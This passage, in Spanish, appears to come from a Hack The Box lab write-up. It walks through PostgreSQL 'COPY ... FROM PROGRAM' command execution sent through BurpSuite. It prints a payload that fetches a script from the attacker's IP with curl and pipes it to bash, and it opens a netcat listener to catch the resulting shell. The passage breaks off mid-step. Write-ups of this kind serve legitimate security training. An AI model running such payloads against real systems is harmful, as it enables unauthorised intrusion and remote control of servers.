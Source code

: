 * En **BurpSuite**, usaremos **curl** para abrir ese archivo y ejecutarlo con **Bash**, utiliza el código que proporciona **Hacktricks**:
```sql
COPY cmd_exec FROM PROGRAM 'id';
```

* Elimina **id** y pon la siguiente línea:
```sql
'curl+Tu_IP/pwned|bash'
```
Y debería verse así:

<p align="center">
<img src="/assets/images/htb-writeup-toolbox/Captura13.png">
</p>

* Abre una **netcat**:
```bash
nc -nvlp 443                                                  
listening on [any] 443 ...
```

* Manda la petición y observa la **netcat**:

<p align="center">
